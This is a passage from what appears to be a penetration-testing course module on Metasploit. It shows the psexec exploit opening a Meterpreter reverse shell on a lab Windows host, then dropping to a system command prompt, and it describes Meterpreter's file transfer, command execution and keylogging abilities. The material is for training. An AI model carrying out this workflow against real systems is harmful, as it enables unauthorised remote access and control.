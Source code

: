   Automating Payloads & Delivery with Metasploit

```shell-session

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

After we issue the `exploit` command, the exploit is run, and there is an attempt to deliver the payload onto the target utilizing the Meterpreter payload. Metasploit reports back each step of this process, as seen in the output. We know this was successful because a `stage` was sent successfully, which established a Meterpreter shell session (`meterpreter >`) and a system-level shell session. Keep in mind that Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target. The proper credentials and attack vector can give us the ability to upload & download files, execute system commands, run a keylogger, create/start/stop services, manage processes, and more.

In this case, as detailed in the [Rapid 7 Module Documentation](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/): "This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload. This module is similar to the "psexec" utility provided by SysInternals. This module is now able to clean up after itself. The service created by this tool uses a randomly chosen name and description. "

Like other command language interpreters (Bash, PowerShell, ksh, etc...), Meterpreter shell sessions allow us to issue a set of commands we can use to interact with the target system. We can use the `?` to see a list of commands we can use. We will notice limitations with the Meterpreter shell, so it is good to attempt to use the `shell` command to drop into a system-level shell if we need to work with the complete set of system commands native to our target.

#### Interactive Shell

  Automating Payloads & Delivery with Metasploit

```shell-session
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

`Now let's put our knowledge to the test with some challenge questions`.